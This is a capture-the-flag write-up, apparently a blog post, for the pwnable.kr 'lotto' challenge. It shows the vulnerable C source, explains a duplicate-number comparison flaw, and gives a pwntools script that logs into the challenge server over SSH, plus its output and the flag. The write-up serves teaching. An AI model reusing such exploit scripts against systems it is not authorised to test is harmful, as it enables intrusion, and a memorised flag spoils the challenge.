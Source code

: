 ```yaml
---
title: "Binary Exploitation | Pwnable.kr - lotto"
permalink: "binary-exploitation/pwnablekr/:title"
layout: post
---
```


> Challenge description:
>
> Mommy! I made a lotto program for my homework.
> do you want to play?



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){
	
	int i;
	printf("Submit your 6 lotto bytes : ");
	fflush(stdout);

	int r;
	r = read(0, submit, 6);

	printf("Lotto Start!\n");
	//sleep(1);

	// generate lotto numbers
	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1){
		printf("error. tell admin\n");
		exit(-1);
	}
	unsigned char lotto[6];
	if(read(fd, lotto, 6) != 6){
		printf("error2. tell admin\n");
		exit(-1);
	}
	for(i=0; i<6; i++){
		lotto[i] = (lotto[i] % 45) + 1;		// 1 ~ 45
	}
	close(fd);
	
	// calculate lotto score
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}

	// win!
	if(match == 6){
		system("/bin/cat flag");
	}
	else{
		printf("bad luck...\n");
	}

}
// The rest of the code is not important
```

The game asks for 6 bytes and compares them with 6 random bytes in the range [1-45], if the number of matches is 6 we win the game.

The observation here is that it compares each random byte to all the 6 input bytes, so if there is only one match, we win :)

So we will enter 6 of the same character (in the range [1-45]) and hope there is a match. 

# Solution:

```python
# solve.py

from pwn import *

sh = ssh('lotto', 'pwnable.kr', password='guest', port=2222)
p = sh.process('./lotto')

for i in range(1000):
	p.recv()
	p.sendline('1')
	p.recv()
	p.sendline('------')
	_ , ans = p.recvlines(2)
	if "bad" not in ans:
		print(ans)
		break
```

```
$ python solve.py
[+] Connecting to pwnable.kr on port 2222: Done
[+] Starting remote process './lotto' on pwnable.kr: pid 102926
sorry mom... I FORGOT to check duplicate numbers... :(
```

Flag: `sorry mom... I FORGOT to check duplicate numbers... :(`